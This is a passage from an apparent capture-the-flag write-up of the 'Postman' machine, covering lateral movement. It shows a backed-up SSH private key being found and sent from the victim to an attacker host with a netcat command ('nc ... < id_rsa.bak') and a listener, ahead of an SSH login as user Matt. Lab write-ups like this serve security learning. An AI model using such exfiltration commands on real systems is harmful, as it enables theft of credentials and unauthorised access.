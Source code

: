 ![lin2.png](/assets/img/Postman/lin2.png)

### Lateral Movement

By inspecting the contents of this file, we can confirm that it is, in fact, a private key.

![idRsaBak.png](/assets/img/Postman/idRsaBak.png)

I transferred this file to my attacking machine via `Netcat`. 

On victim machine:
```bash
nc -w 3 10.10.14.4 9989 < id_rsa.bak
```

On the receiving end:
```bash
nc -nlvp 9989 > matt_rsa
```

![fileTransfer.png](/assets/img/Postman/fileTransfer.png)

Now we can try to login as user Matt via `SSH`.
